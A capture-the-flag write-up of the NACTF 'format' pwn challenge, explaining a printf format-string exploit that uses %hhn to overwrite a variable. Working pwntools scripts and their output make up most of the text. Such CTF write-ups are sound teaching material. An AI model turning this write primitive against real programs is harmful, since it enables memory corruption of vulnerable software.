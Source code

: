 ## NACTF: format [pwn]
![](formats_desc.png)

#### Despite being an easy challenge, I was still satisfied to solve it since I wasn't confident with my format string skills. We were given the challenge binary and source code which makes it kinda easier to understand. Basically what we need to do is set the lower bits of the num variable to the value 0x42 (66). 

#### My first plan was to first find the offset at which our input can be located on the stack. Playing around gives us the offset of 6, but after placing the address of the num variable (which I got from gdb), we need to adjust. 

```python
#: 12 space padding
p.sendline("            %8$p{}".format(p64(0x404080)))
print(p.recv())
```
```
[x] Starting local process './format'
[+] Starting local process './format': pid 25945
Give me some text.

You typed             0x404080�@@!
Nope, try again

[*] Process './format' stopped with exit code 0 (pid 25945)
```

#### Alright we there we have it, the next step is then to write 0x42 into that address. We can achieve this by using the modifier `%hhn` which will write exactly a byte into num. Since the %hhn modifier will write how many bytes printf has written, we need a way to adjust the size of the payload: using the modifier to add spaces (%Nx, N being the number of spaces we want printf to write). It took quite some time to fiddle around, but after a few adjustments we got the results we need

```python
p.sendline("%60x      %8$hhn{}".format(p64(0x404080)))
print(p.recv())
```

#### To walk you through what the idea is here, `%60x` prints out 60 bytes of data and prints out another 6 bytes from the spaces, making the total number of bytes written by printf to 66 (0x42). It then writes this amount into the 0x404080 (the address of the num variable) and proceeds to write exactly one byte due to the %hhn modifier. Final exploit script used to get the flag is the one below:

```python
from pwn import *

#:
#p = process('./format')
p = remote('challenges.ctfd.io', 30266)
#gdb.attach(p.pid, 'break *check_num + 32')
print(p.recvuntil('.\n'))

#: 12 space padding
p.sendline("%60x      %8$hhn{}".format(p64(0x404080)))
print(p.recvuntil('}'))
```
```
$ python exploit.py
[x] Opening connection to challenges.ctfd.io on port 30266
[x] Opening connection to challenges.ctfd.io on port 30266: Trying 159.203.148.124
[+] Opening connection to challenges.ctfd.io on port 30266: Done
Give me some text.

You typed                                                     1aacf150      �@@!
Congrats! here's your flag
nactf{d0nt_pr1ntf_u54r_1nput_HoUaRUxuGq2lVSHM}
[*] Closed connection to challenges.ctfd.io port 30266
```